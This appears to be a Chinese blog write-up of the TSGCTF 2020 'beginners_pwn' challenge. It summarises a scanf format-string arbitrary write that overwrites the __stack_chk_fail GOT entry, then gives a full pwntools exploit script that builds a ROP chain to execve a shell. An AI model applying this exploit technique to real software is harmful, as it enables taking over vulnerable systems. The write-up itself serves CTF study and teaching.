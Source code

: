 ```yaml
---
title: TSGCTF 2020 beginners_pwn
date: 2020-07-09 00:00:00
categories:
- CTF/Pwn
tags: ROP scanf 格式化字符串
---
```


> 题面非常简单，scanf格串参数可控。但无任何输出函数，无法泄露libc，不过程序syscall指令。利用方法：scanf格串构造任意地址写，写stack_chk_fail的GOT表，然后继续利用scanf栈溢出触发canary报警，控制流劫持，但是只找到两个能利用rdi和rsi的gadget，无法直接控制rax和rdx。最后在程序中找到一段gadget(0x4011DE)能间接控制rax和rdx，不过需要劫持rbp才能满足这段约束的条件。总之最后一顿ROP到syscall上即可execve("/bin/sh",0,0)。

- attachment：[beginners_pwn](https://xuanxuanblingbling.github.io/assets/attachment/tsgctf/beginners_pwn)
- ctftime：[beginners_pwn](https://ctftime.org/task/12272)

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
myelf = ELF("./beginners_pwn")
io = process(myelf.path)
#io = remote("35.221.81.216",30002)

def aaw(addr,data):
    io.sendline('%7$s%s\x00\x00'+p64(addr))
    io.sendline(data)
    
# (Addr:0x404018) ROP start and new stack here 
payload  = p64(0x4012be)        # pop*3;ret
payload += p64(0)               # padding
payload += "/bin/sh\x00"        # /bin/sh
payload += p64(0x3b)            # *(*(rbp-0x18)) exevce
payload += p64(0x404030)        # *(rbp-0x18)
payload += p64(0)*3             # padding
payload += p64(0x4012c3)        # pop rdi;ret
payload += p64(0x404028)        # /bin/sh addr
payload += p64(0x4012c1)        # pop rsi;pop r15;ret
payload += p64(0)*2             # rsi;r15
payload += p64(0x40118F)        # syscall

# modify stack_chk_fail in GOT
stack_chk_fail = 0x404018
aaw(stack_chk_fail,payload)

# trigger stack smash
payload  = p64(0x40112d)        # pop rbp
payload += p64(0x404050)        # mov rbp to 0x404050
payload += p64(0x4011DE)        # rbx = 0,rax = *(*(rbp-0x18)),leave and return
io.sendline(payload)
io.sendline("cat flag")
io.interactive()
```